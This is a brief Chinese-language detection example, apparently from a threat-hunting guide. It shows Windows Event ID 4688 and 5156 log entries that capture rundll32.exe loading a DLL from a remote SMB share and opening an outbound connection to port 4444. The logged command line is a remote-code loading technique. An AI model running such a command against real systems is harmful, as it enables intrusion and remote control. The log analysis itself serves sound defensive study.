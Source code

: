 ### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: 12306Br0-PC
描述:
已创建新进程。

进程信息:
  新进程 ID: 0xa30
  新进程名称: C:\Windows\SysWOW64\rundll32.exe
  令牌提升类型: TokenElevationTypeDefault (1)
  创建者进程 ID: 0xefa
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

**分析**：
- 日志记录`rundll32.exe`的执行，命令行包含远程SMB路径。

### Windows安全日志（Event ID 5156：WFP连接）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 5156
任务类别: Filtering Platform Connection
级别: 信息
用户: N/A
计算机: 12306Br0-PC
描述:
Windows过滤平台已允许连接。

应用程序信息:
  进程 ID: 2608
  应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

网络信息:
  方向: 出站
  源地址: 192.168.126.149
  源端口: 49381
  目标地址: 192.168.126.146
  目标端口: 4444
  协议: 6
```
